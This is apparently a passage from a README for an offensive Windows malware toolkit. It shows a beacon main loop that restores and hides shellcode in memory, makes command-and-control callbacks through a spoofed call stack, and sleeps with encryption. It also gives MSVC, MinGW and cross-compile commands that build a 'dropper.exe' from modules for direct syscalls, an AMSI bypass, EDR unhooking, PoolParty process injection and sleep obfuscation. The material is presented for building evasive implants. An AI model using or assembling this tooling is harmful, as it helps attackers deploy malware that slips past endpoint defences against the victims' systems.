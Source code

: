 ### Pattern 3: Beacon Sleep Cycle

```c
// Beacon main loop
while (running) {
    // Step 1: Restore memory (if using fluctuation)
    ShellcodeFluctuation_Restore(&fluctuation);

    // Step 2: Execute C2 callback
    SilentMoonwalk_CallWithSpoofedStack(&spoof, C2Callback, arg, ...);

    // Step 3: Hide memory
    ShellcodeFluctuation_Hide(&fluctuation);

    // Step 4: Encrypted sleep
    Zilean_Sleep(&zilean, sleepInterval);
}
```

---

## Compilation

### Windows (MSVC)

```bash
cl /Fe:dropper.exe integrated_loader.c \
   ..\syscalls\syswhispers3.c \
   ..\amsi\veh2_bypass.c \
   ..\unhooking\peruns_fart.c \
   ..\injection\poolparty.c \
   ..\sleep_obfuscation\zilean.c \
   ..\evasion\silentmoonwalk.c \
   bcrypt.lib
```

### Windows (MinGW)

```bash
gcc -o dropper.exe integrated_loader.c \
    ../syscalls/syswhispers3.c \
    ../amsi/veh2_bypass.c \
    ../unhooking/peruns_fart.c \
    ../injection/poolparty.c \
    ../sleep_obfuscation/zilean.c \
    ../evasion/silentmoonwalk.c \
    -lbcrypt -DUNICODE -D_UNICODE
```

### Linux → Windows (Cross-Compile)

```bash
x86_64-w64-mingw32-gcc -o dropper.exe integrated_loader.c \
    ../syscalls/syswhispers3.c \
    ../amsi/veh2_bypass.c \
    ../unhooking/peruns_fart.c \
    ../injection/poolparty.c \
    ../sleep_obfuscation/zilean.c \
    ../evasion/silentmoonwalk.c \
    -lbcrypt -static
```

---